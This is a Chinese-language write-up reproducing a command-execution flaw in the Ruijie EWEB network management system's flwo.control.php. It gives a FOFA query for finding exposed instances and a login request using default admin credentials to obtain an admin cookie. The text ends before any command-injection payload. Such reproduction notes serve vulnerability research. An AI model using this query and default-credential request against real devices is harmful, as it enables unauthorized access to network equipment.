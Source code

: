 
# 锐捷 EWEB 网管系统 RCE 漏洞复现

### 0x01 产品简介

  [锐捷](https://so.csdn.net/so/search?q=%E9%94%90%E6%8D%B7&spm=1001.2101.3001.7020)网管系统是由北京锐捷数据时代科技有限公司开发的新一代基于云的网络管理软件，以“数据时代创新网管与信息安全”为口号，定位于终端安全、IT 运营及企业服务化管理统一解决方案。

### 0x02 漏洞概述

  Ruijie-EWEB 网管系统 flwo.control.php 中的 type 参数存在命令执行漏洞，攻击者可利用该漏洞执行任意命令，写入后门，获取服务器权限，进而控制整个 web 服务器。

### 0x03 复现环境

FOFA：app="Ruijie-EWEB 网管系统"

![127d55f3543a4249a89139605fe5dabb.png](assets/1701668958-4bdc42ac01cc9bea80f0f686c749edfe.png)

### 0x04 漏洞复现 

获取 admin 用户有效 cookie

```http
POST /ddi/server/login.php HTTP/1.1
Host: {{Hostname}}
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Content-Length: 30
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip
Connection: close

username=admin&password=admin?
```

